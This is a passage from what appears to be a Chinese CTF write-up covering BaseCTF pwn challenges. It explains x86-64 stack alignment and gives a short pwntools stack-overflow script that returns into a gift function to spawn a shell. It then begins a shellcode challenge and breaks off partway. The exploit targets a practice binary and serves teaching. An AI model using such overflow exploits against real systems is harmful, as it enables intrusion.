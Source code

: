 ### 重点：堆栈平衡
+ 现代 x86-64 ABI（应用二进制接口）规范要求栈在函数调用前对齐到 16 字节
+ 即rsp（栈顶寄存器）地址应为0x10的倍数

>  脚本中有操作空间的地方就是payload里面的返回地址 从返回地址入手，再看回 dt_gift 函数的汇编指令  
>
> ![](/images/746a56c46a6e312785f8371e7bb5637c.png)
>

> 可以看到在`call _system`指令之前有一个`push rbp`的指令  
这个指令会使rsp的地址减8，这也是调用`system`函数时Got EOF的原因
>

> 所以将调用`dt_gift`函数的地址改为在`push rbp`指令之后，在`lea rax,command`指令之前的地址  
就能够解决Got EOF的问题
>

> 最终的脚本如下：
>

```python
from pwn import *
link=remote('challenge.basectf.fun',端口)
dt_gift_addr=0x4011A9 #这里的地址从0x4011A4换成了0x4011A9
payload=b'a'*0x28+p64(dt_gift_addr)
link.sendline(payload)
link.interactive()
```

> 运行脚本输入命令行指令：  
![](C:\Users\garhi\AppData\Roaming\Typora\typora-user-images\image-20240824144029333.png)![](/images/25c9c7cff6047501f8cdfcb2d5e2786c.png)  
成功获得flag！
>

## 4、shellcode_level0
> 下载题目附件，先用checksec查一下  
![](C:\Users\garhi\AppData\Roaming\Typora\typora-user-images\image-20240824201737838.png)![](/images/c1509d39be59b9d5b5ef963143670765.png)  
从截图可以知道程序是64位的  
还看到了栈溢出漏洞，但是和题目提示没关系...
>

> 接着用IDA逆向分析  
看到`main`函数里面有一个很特别的语句：
>
> ![](/images/cbb707ae07463d8cb693fc4f825074b2.png)
>

```plain
((void(*)(void))buf)()
```

> 非常好括号，使我晕头转向（？）
>
